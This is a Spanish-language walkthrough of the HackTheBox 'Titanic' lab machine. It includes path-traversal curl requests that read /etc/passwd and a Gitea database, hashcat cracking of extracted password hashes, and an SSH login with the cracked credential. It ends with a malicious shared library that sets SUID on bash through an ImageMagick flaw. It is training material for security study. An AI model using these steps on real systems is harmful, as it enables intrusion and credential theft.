





# Tutorial de Titanic de HackTheBox en Español



Empezamos la máquina con un escaneo en nmap de todos los puertos por TCP.

```
nmap -sS 10.129.137.171 -n -Pn -p- --min-rate 3000

Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Están abiertos los puertos 22 (ssh) y 80 (http), vamos a intentar detectar las versiones de estos servicios, así como comprobar si efectivamente son estos los servicios en ejecución..

```
nmap -sVC -p 22,80 10.129.137.171

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://titanic.htb/
Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Efectivamente tiene un servidor OpenSSH y un Apache, ninguna de las versiones parece vulnerable a priori. Ya que hay un servicio http corriendo en el puerto 80, vamos a lanzar un `whatweb` para detectar las tecnologías que están siendo utilizadas.

```
whatweb 10.129.137.171

http://10.129.137.171 [301 Moved Permanently] Apache[2.4.52], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.129.137.171], RedirectLocation[http://titanic.htb/], Title[301 Moved Permanently]
ERROR Opening: http://titanic.htb/ - no address for titanic.htb
```

Nos intenta redirigir a `http://titanic.htb`, vamos a incluirlo en el `/etc/hosts` para poder resolver.

```
echo "10.129.137.171  titanic.htb" >> /etc/hosts
```

Volvemos a lanzar el script:

```
whatweb titanic.htb

http://titanic.htb [200 OK] Bootstrap[4.5.2], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/3.0.3 Python/3.10.12], IP[10.129.137.171], JQuery, Python[3.10.12], Script, Title[Titanic - Book Your Ship Trip], Werkzeug[3.0.3]
```

Tomamos nota de las tecnologías por si pueden ser útiles más adelante.

Ya hecho un reconocimiento básico, vamos a visitar el sitio web.


Al probar los botones de la página, notamos que el único funcional es `Book Now`.



Rellenamos el formulario que nos aparece con datos aleatorios.



Al enviar el formulario, se descarga un archivo con la estructura `<random_string>.json`. Vamos a interceptar esta solicitud con burpsuite para ver que está pasando por detrás.



Podemos ver cómo el servidor nos devuelve una cabecera `Location` que nos redirige a location con un parámetro `ticket=<file>`.

Ya que el parámetro `ticket` apunta a un archivo, vamos a intentar un **path traversal**.

```
curl "titanic.htb/download?ticket=../../../etc/passwd"

root:x:0:0:root:/root:/bin/bash
developer:x:1000:1000:developer:/home/developer:/bin/bash
...passwd file...
```

La explotación ha sido exitosa.

Vamos también a leer el archivo `/etc/hosts` en busca de algun subdominio al que apuntar.

```
curl "titanic.htb/download?ticket=../../../etc/hosts"

127.0.0.1 localhost titanic.htb dev.titanic.htb
...hosts file...
```

Tiene un subdominio `dev.titanic.htb`. Vamos a incluirlo en nuestro `/etc/hosts` y entrar en su sitio a través del navegador.

```
echo "10.129.137.171 dev.titanic.htb" >> /etc/hosts
```

Es un servicio `gitea`, una plataforma para gestionar proyectos con Git. Vamos a ver los repositorios que tienen alojados.



En el repositorio `docker-config`, dentro del archivo `docker-compose.yml` de `Gitea` observamos un volumen que asocia el `/home/developer/data` con `/data` en el contenedor.

```
volumes:
    - /home/developer/gitea/data:/data
```

En la [documentación de gitea sobre docker](https://docs.gitea.com/installation/install-with-docker), encontramos una línea que dice:

```
Customization files described here should be placed in /data/gitea directory.
```

Por lo tanto, la base de datos debe de estar ahí. En [esta página de la documentación](https://docs.gitea.com/1.21/help/faq#where-does-gitea-store-what-file) encontramos el nombre por defecto del archivo de base de datos sqlite3.

Utilizaremos el path traversal descubierto previamente para descargar el archivo de la base de datos.

```
curl "titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/gitea.db" --output gitea.db
```

Accedemos con el cliente de sqlite:

```
sqlite3 gitea.db
```

Listamos las tablas:

```
.tables

...tables...
user
...tables...
```

La tabla `user` nos llama la atención.

Leyendo las columnas de `user` nos damos cuenta de que las contraseñas de los usuarios están hasheadas en el algoritmo `pbkdf2`. Para crackearlos, usaremos **hashcat**, y para convertir los hashes a un formato que hashcat pueda entender, utilizaremos una herramienta `gitea2hashcat.py` cuyo uso se explica detalladamente en [esta página](https://www.unix-ninja.com/p/cracking_giteas_pbkdf2_password_hashes).

```
select email,salt,passwd from user;

root@titanic.htb|2d149e5fbd1b20cf31db3e3c6a28fc9b|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136
developer@titanic.htb|8bf3e3452b78544f8bee9400d6936d34|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56
test@test.com|7fcf462c21bf4ca64d61976df790f169|8ee98d985f9fe735939f8c434866440513a1b2089510c15d3104c4bc2c72c00ebe43745886892128d6b51d1195f77bea651e
```

Vamos a intentar crackear la contraseña de `developer`.

```
./gitea2hashcat.py '8bf3e3452b78544f8bee9400d6936d34|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56'

sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```

Iniciamos el crackeo con el diccionario `rockyou`.

```
hashcat -m 10900 hashes.txt rockyou.txt
```

Pocos instantes después, encontramos la contraseña.

```
hashcat -m 10900 hashes.txt rockyou.txt --show

sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
```

La contraseña de usuario `developer` en gitea es `25282528`. Vamos a ver si podemos conectarnos por `ssh` con esta misma credencial.

```
ssh developer@titanic.htb
developer@titanic.htb's password: 25282528
```

Hemos conseguido conectarnos como el usuario `developer`. Ya podemos leer la flag de usuario.

```
cd
cat user.txt
```

Buscando formas de escalar privilegios damos con el script `/opt/scripts/identify_images.sh`.

```
cat /opt/scripts/identify_images.sh

cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

Este script ejecuta `/usr/bin/magick` identify en cada imagen del directorio `/opt/app/static/assets/images/`. El problema es que tiene la versión de magick desactualizada y es vulnerable a la [esta brecha](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8).

Siguiendo las instrucciones del exploit, compilamos una librería maliciosa en el mismo directorio donde están las imágenes que van a ser analizadas. Ejecutamos `chmod +s /usr/bin/bash` para otorgar privilegios **SUID** a **Bash** y poder escalar a `root` sin necesidad de una contraseña.

```
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("chmod +s /usr/bin/bash");
    exit(0);
}
EOF
```

Asumiendo que el script se ejecuta periódicamente como `root`, esperamos unos segundos hasta poder ejecutar **Bash** con privilegios **SUID**.

```
bash -p
whoami

root
```

Una vez como `root` ya podemos leer la flag de este. Así completamos la máquina `Titanic`.

```
cd
cat root.txt
```

Tras acabar la máquina no olvides eliminar la línea del `/etc/hosts` correspondiente a la máquina para evitar que se acumulen líneas con cada máquina que hagas.

Si te ha parecido útil, considera dejar una estrella al proyecto. Gracias y mucha suerte en tus próximas máquinas ❤️.